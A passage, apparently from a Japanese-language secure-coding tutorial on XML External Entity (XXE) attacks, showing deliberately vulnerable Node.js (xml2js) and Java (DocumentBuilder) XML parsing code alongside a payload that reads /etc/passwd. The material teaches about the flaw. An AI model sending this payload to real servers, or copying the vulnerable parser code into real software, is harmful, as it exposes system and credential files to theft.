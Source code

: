 ```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### **Node.js**

**脆弱なコード:**
```javascript
const express = require('express');
const bodyParser = require('body-parser');
const xml2js = require('xml2js');

const app = express();
app.use(bodyParser.text({ type: 'application/xml' }));

app.post('/xml', (req, res) => {
    xml2js.parseString(req.body, (err, result) => {
        res.send(result);
    });
});

app.listen(3000);
```

**攻撃手法:**
攻撃者が以下のような悪意のあるXMLを送信すると、サーバー上の機密ファイルが読み取られる可能性があります。

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>&xxe;</root>
```

#### **Java**

**脆弱なコード:**
```java
import javax.xml.parsers.DocumentBuilder;
import javax.xml.parsers.DocumentBuilderFactory;
import org.w3c.dom.Document;

public class XXEExample {
    public static void main(String[] args) throws Exception {
        DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
        DocumentBuilder builder = factory.newDocumentBuilder();
        Document doc = builder.parse("input.xml");
        System.out.println(doc.getDocumentElement().getTextContent());
    }
}
```
